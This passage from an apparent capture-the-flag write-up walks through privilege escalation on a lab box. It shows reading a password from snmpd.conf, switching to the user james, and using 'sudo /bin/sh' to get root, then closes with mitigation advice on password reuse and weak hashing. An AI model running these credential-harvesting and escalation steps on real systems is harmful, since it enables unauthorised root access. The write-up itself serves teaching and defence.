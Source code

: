 The code was writting to a file in '/root'. That looked really promising, maybe it was being run as root. I was able to write to it, so I added a line to create a file in '/tmp'. I also ran [pspy](https://github.com/DominicBreuker/pspy) to find out if I could see it executed. It was not.

I ran [linPEAS](https://github.com/carlospolop/PEASS-ng) on the server and did not see anything in the results. I tried to find modified files all over the file system. 

Eventually, I looked at the configuration for the running services. The Apache and sshd configuration had nothing special. But when I got to the SNMP configuration, I finally saw it.


```bash
svc@mentor:~$ cat /etc/snmp/snmpd.conf
...

createUser bootstrap MD5 REDACTED DES
rouser bootstrap priv

...
```

I contained a password. I used it to 'su' as james.

```bash
svc@mentor:~$ su james
Password:

james@mentor:/home/svc$ 
```


## root

Once connected as james, getting root was very easy.

```bash
james@mentor:/home/svc$ sudo -l
[sudo] password for james:
Matching Defaults entries for james on mentor:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User james may run the following commands on mentor:
    (ALL) /bin/sh

james@mentor:~$ sudo /bin/sh

# cat /root/root.txt
REDACTED
```

## Mitigation

The biggest issue with that box is the passwords. There are passwords all over, and they are reused. There is a password used on the command line that allowed me to connect to the API. The password that svc uses for the API is the same one they use to connect to the server. That password is also hashed using a very weak algorithm (MD5). It took hashcat 15 seconds to crack it in an underprovisioned VM. And james' password was in clear in a configuration file that anyone could read. This user had permission to do anything they wanted on the server. Their password should have been a lot stronger than what they used, and it should never appear anywhere on the server.
